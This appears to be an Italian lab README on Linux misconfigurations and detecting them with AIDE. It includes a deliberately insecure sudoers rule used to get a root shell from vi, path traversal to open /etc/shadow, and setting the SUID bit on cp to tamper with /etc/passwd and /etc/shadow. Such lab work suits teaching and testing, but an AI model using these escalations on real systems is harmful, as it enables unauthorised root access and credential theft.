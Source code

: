- TEST 2: pacchetto insicuro

```sh
apt install -y hello-world_0.0.1-1.deb

aide -C -c /etc/aide/aide.conf
# OUTPUT:

```
# Misconfiguration e rispettive rilevazioni

## SUDOERS  

Voglio superare i permessi di un utente non privilegiato (user_test) per ottenere accesso root.

1. Aggiunta di quesra riga in sudo visudo: ```user_test ALL=(root) NOPASSWD:/usr/bin/vi /var/www/html/*```, 
per dargli accesso sudo senza password per eseguire **solo** vi e **solo** sul file in /var/www/html/*

2. *TIPS*: Per vedere cosa un utente privilegiato non può fare: ```sudo -l -U user_test```

3. Usiamo i privilegi:

- MODALITÀ 1: avvio shell
```sh
sudo /usr/bin/vi /var/www/html/file_a_caso # ho accesso qui
# se dentro vi digito: :!/bin/bash 
# verrà avviata una shell root senza password
# perchè vi è stato eseguito come root con sudo
```

- MODALITÀ 2: path trasversal
```sh
sudo /usr/bin/vi /var/www/html/../../../etc/shadow
```

- MODALITÀ 2: path trasversal
```sh
sudo /usr/bin/vi /var/www/html/../../../etc/shadow
```

## SUID

Voglio usare cp per copiare file di sistema protetti (come /etc/passwd e /etc/shadow) e modificarli indirettamente

1. Da root, assegniamo il SUID bit al comando cp ( chiunque esegua quel programma lo eseguirà con i privilegi dell'utente proprietario del file, root in questo caso )

```sh
chmod u+s /bin/cp
ls -al /bin/cp
```

